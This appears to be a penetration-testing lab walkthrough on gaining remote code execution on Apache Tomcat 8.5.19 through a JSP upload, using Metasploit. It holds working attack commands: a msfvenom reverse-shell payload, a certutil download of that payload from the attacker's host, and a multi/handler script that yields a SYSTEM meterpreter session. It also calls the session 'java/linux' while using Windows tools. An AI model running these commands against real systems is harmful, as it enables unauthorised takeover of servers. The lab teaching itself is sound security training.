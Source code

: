 # Exploiting Apache Tomcat

+ Apache Tomcat, also known as Tomcat server, is a popular, free and open source Java servlet web server.

+ It is used to build and host dynamic websites and web applications based on the Java software platform.

+ Apache Tomcat utilizes the HTTP protocol to facilitate the underlying communication between the server and clients.

+ Apache Tomcat runs on TCP port 8080 by default.

+ The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.

+ The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.

+ Apache Tomcat V8.5.19 is vulnerable to a remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server.

+ We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server.

## Laboratory

- Start the postgresql server by running `service postgresql start`.

- Start the msfconsole and check the database status.

- Create a new workspace and import your nmap scan results or run the tcp port scan from msfconsole if you want to. We can name it tomcat for this example.

- Set globally the target IP with `setg RHOSTS $TARGET_IP`, do this for the RHOST option as well.

- From the nmap scan, we should see the apache tomcat web server running on port 8080, version 8.5.19, which is vulnerable to a RCE via JSP upload. If we search in the msfconsole by running `search type:exploit tomcat_jsp` we should find the module we want to use for this case. We only need to make sure the rhosts and rport are set correctly. In this example we can only use a jsp payload, which is a java payload. So we are going to set it by running `set payload java/jsp_shell_bind_tcp`, note this is a non-staged payload. And we will also need to set up the shell command we want to execute upon running the payload, in this case we will use cmd.

- After running the exploit module, we should get a cmd session. Put it on background for now. We are now going to try to migrate it to a meterpreter session. For now, we cannot upgrade it using any post-exploitation module as the cmd session is `java/linux` type. To achieve this, we are going to use msfvenom to craft a meterpreter payload and upload it through the command shell by running `msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=1234 -f exe > meterpreter.exe`.

- Once the meterpreter paylaod is created, we are going to serve the file through a simple http server on our kali machine `sudo python -m SimpleHTTPServer 80`, and from this server, we are going to download the payload on the target machine with a built in windows utility.

- We are going to come back to our java session, from it we are going to run `certutil -urlcache -f http://X.X.X.X/meterpreter.exe meterpreter.exe` Note that the ip address we need to use to download the file should be our kali machine url.

- Now we are going to prepare a Resource Script to launch a multihandler. Start a vim editor in your kali machine with a new file called handler.rc and paste in there these contents:

```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST X.X.X.X
set LPORT 1234
run
```

**Note**: The LHOST option should contain the kali IP address and the LPORT option should contain the port we speicified when creating the payload con msfvenom.

- Run `msfconsole -r handler.rc` to run the handler automatically. Then come back to the cmd session on the target machine and execute the meterpreter.exe payload. We should recieve a connection to the multihandler and a meterpreter session should be established with NT AUTHORITY\SYSTEM privileges.
